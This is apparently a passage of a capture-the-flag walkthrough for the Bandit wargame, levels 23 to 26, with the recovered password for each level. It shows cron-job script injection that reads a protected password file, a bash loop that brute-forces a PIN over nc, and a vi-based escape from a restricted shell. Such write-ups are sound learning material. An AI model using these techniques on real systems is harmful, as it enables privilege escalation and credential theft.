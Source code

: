 - Connect to the machine
- Check cron for level 24: `/etc/cron.d/cronjob_bandit24`
- Script deletes files in `/var/spool/bandit24/foo`
- Write a script to copy password to temp directory
- Set permissions: `chmod 777 /tmp/tmp.VDBvAS7DQd`
- Create pass file: `touch pass; chmod 777 pass`
- Script:  
  `echo "cat /etc/bandit_pass/bandit24 >> /tmp/tmp.VDBvAS7DQd/pass" > script.sh`
- Copy script: `cp script.sh /var/spool/bandit24/foo`
- After a minute, get password from file

**Password:** `gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8`

---

### Level 24 &rarr; 25

**Steps:**

- Connect to the machine
- Use script:
  ```bash
  for i in $(seq 1 9999); do
      num=$(printf "%04d" "$i");
      response=$( printf '%s %s\r\n' "gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8" "$num" | nc -N localhost 30002 2>/dev/null); 
      if [[ "$response" != *"Wrong!"* ]]; then 
          echo $response; 
      fi
  done;
  ```
- After a few seconds, get password

**Password:** `iCi86ttT4KSNe1armKiwbQNmB3YJP3q4`

---

### Level 25 &rarr; 26

**Steps:**

- Connect to the machine
- Home folder contains SSH Keys for Bandit26
- Can't login due to different shell
- Check shell: `cat /etc/passwd | grep bandit26`
- Shell is `/usr/bin/showtext`
- Make terminal smaller before SSH, get into interactive command with `v`
- Use `:e /etc/bandit_pass/bandit26`
- To get shell: `:set shell=/bin/bash` then `:shell`

**Password:** `s0773xxkk0MXfdqOfPRVr9L3jJBUOgCZ`

---

### Level 26 &rarr; 27
